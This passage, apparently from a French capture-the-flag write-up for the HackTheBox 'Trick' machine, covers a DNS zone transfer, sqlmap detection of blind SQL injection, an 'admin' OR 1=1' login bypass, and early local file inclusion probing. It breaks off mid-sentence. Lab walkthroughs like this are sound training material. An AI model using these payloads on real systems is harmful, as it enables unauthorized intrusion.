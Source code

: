 ```bash
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 89 msec
;; SERVER: 10.10.11.166#53(10.10.11.166) (TCP)
;; WHEN: Thu Jan 26 18:08:24 EST 2023
;; XFR size: 6 records (messages 1, bytes 231)
```

Ceci nous donne deux sous domaines: root.trick.htb et preprod-payroll.trick.htb, on le rajoute au /etc/hosts. Sur le navigateur on tombe alors sur un panel admin.

On relance un gobuster même si ce sera sûrement une injection. On va essayer avec SQLMap en analysant la requête avec BurpSuite.

On trouve la page users.php qui contient juste l’information que Enemigosss est un admin.

Dans employee.php: 

```bash
Employee No 	Firstname 	Middlename 	Lastname 	Department 	Position 	Action
2020-9838 	John 	C 	Smith 	IT Department 	Programmer
```

Vu qu’il n’y a rien de particulier on va intercepter une requête avec burp et l’utiliser avec SQLMap

```bash
sqlmap -r login.req

[18:24:23] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
```

On va alors essayer quelques injections basique mysql, les commentaires sont:

```bash
-- -
```

On essaye donc avec

```bash
admin' OR 1=1 -- -
```

On est connecté sur le panel, ça a fonctionné.

On dirait qu’il y a une LFI dans l’URL:

```bash
http://preprod-payroll.trick.htb/index.php?page=department
```

On va tenter d’accéder à des pages:

```bash
http://preprod-payroll.trick.htb/index.php?page=login
```

La page de login s’incruste dans la page actuelle, c’est bon signe alors on essaye de récupérer les pages qu’on a trouvé avec gobuster dir mais innacessible c’est à dire:
